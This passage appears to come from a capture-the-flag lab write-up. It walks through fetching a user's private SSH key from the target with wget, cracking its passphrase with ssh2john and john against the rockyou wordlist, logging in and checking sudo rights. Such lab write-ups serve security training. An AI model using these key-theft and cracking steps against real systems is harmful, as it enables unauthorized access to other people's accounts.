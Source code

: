 ```shell
wget http://$IP:9999/id_rsa
```

And to complete either step:

```shell
chmod 600 id_rsa
```

We can now `ssh` into the other user...or can we?

```shell
# Use -i for an ssh key file
ssh -i id_rsa [REDACTED]@$IP
# Enter passphrase for key 'id_rsa':
```

Not quite done yet, are we?

We can use `ssh2john` and `john` to crack `ssh` key files

```shell
ssh2john.py id_rsa > id_rsa.hash && john --wordlist=~/wordlists/rockyou.txt id_rsa.hash
```

```
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]          (ssh_files/id_rsa)
1g 0:00:00:14 DONE 0.06738g/s 966419p/s 966419c/s 966419C/s
Session completed
```

We now have the password for the key file and can `ssh` into the machine and grab `pass.bak`
And the room is now complete... Mostly

---

### Final Lookaround

We have the other user's password from `pass.bak` and everything is submitted on the room, however, in easy rooms, all the ports have some sort of functionality.
I do the usual, and `sudo -l` to check this user's permissiong

```
[sudo] password for [REDACTED]:
Matching Defaults entries for [REDACTED] on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User [REDACTED] may run the following commands on basic2:
    (ALL : ALL) ALL
```
